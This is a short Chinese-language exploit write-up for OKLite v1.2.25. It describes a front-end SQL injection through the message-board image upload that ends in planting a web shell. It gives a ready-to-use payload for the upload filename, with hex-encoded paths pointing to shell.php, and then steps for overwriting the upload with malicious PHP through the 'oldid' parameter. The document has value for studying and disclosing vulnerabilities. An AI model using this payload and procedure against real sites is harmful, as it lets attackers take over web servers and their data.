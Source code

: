 ```yaml
---
title: OKLite v1.2.25 SQL注入导致getshell(前台)
id: zhfly3055
---
```


# OKLite v1.2.25 SQL注入导致getshell(前台)

## 一、漏洞简介

这个漏洞在2017年在PHPOK当中就被畅师傅就被发现了。PHPOK系统被修复了，但是在OKLite当中还存在。

## 二、漏洞影响

OKLite v1.2.25 版本

## 三、复现过程

地址：http://www.0-sec.org/index.php?id=message

在线留言处上传一个图片并抓包，把文件名修改为：

```
1','pf3qm0js3gb2s5f33r7lf14vl3','30'),('1',0x7265732f3230313931302f30342f,'shell.jpg','jpg',0x7265732f3230313931302f30352f7368656c6c2e706870,'1570161575','abc 
```

![image](../img/e6fe55b0674306fd80c5addd150c1711.png)

上传成功之后会返回图片的id和保存的路径：

![image](../img/59da562690a651c534a6343544dcfda1.png)

再次上传一个图片，把地址中的save改成replace，添加一个参数名为`oldid`，值为图片的id + 1。

图片的内容改为恶意的php代码：

![image](../img/6d2640e5c0b685957d22c308062005b0.png)

上传完成之后可在`res\201910\05`目录下生成一个shell.php

![image](../img/a80daab1e0b3bbabd6b7605a063020c7.png)